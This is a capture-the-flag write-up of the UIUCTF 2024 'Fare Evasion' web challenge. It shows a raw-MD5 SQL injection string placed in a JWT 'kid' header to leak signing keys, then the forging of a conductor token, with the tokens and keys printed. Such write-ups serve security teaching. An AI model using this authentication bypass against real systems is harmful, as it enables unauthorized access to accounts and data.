 # Writeup for Fare Evasion challenge hosted in UIUCTF 2024

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/9bf0e398-d557-406f-892c-88d1b057a0f6)

on opening the challenge, we're greeted with this page and when we click the only button we can ("I'm a passenger"), this appears

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/b70ce90e-b6d9-4ee2-b43b-9d0ba1531fbe)

now, looking at the cookies being sent to get this message, we'll see this - 

![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/b77f226f-e40b-4360-bf8f-ec54c8fb5eb7)
there is a jwt cookie being sent. On decoding it, we see there are few parameters
the headers look like - 
```
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```
and the data looks like - 
```
{
  "type": "passenger"
}
```
In the *page source* we see
```
<script>
    async function pay() {
      // i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
      const r = await fetch("/pay", { method: "POST" });
      const j = await r.json();
      document.getElementById("alert").classList.add("opacity-100");
      // todo: convert md5 to hex string instead of latin1??
      document.getElementById("alert").innerText = j["message"];
      setTimeout(() => { document.getElementById("alert").classList.remove("opacity-100") }, 5000);
    }
  </script>
```
They have mentioned how they are retrieving the passenger key from the database in comments. It probably means they want us to know that an sqli is possible here. We see that they are using raw md5 while storing and retrieving data. The problem with this is that, any kind of characters can be in the raw md5, so all we need to do is find a string such that when it is hashed in md5, it will look something like - ` ' or '1` so that we can do sqli attack and get all records in the database.

I found the string "ffifdyop" which matches our need, from the url - 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md#authentication-bypass-raw-md5-sha1

So we need to put that in the `kid` parameter in the head of the jwt token and sign the jwt with the secret they have given us - `a_boring_passenger_signing_key_?` to get the jwt `eyJhbGciOiJIUzI1NiIsImtpZCI6ImZmaWZkeW9wIiwidHlwIjoiSldUIn0.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.zgePz4fg9QKihcFTuT8SEYy0vIwNnIuNSmb7vZuNVrE` 
 and we get response looking like - 
```
"Sorry passenger, only conductors are allowed right now. Please sign your own tickets. \nhashed \u00f4\u008c\u00f7u\u009e\u00deIB\u0090\u0005\u0084\u009fB\u00e7\u00d9+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e\nhashed _\bR\u00f2\u001es\u00dcx\u00c9\u00c4\u0002\u00c5\u00b4\u0012\\\u00e4 secret: a_boring_passenger_signing_key_?"
```
now all I do is sign the previous jwt with the new secret that they have given us - `conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e`
and get the jwt
`eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0._svKe3YzdQdpJbS7DGr9yOIXzpxza9sKNuxQBEeCHcU`

# obtaining the flag - 
![image](https://github.com/Ryuou02/ctf-writeups/assets/133224167/8b1fc819-f5bb-4dcc-8959-359de801ce1f)
`uiuctf{sigpwny_does_not_condone_turnstile_hopping!}`
# conclusion
I used raw md5 for sqli for first time in this challenge. And this is the first time I see that the secret is used for identifying the content of the jwt.
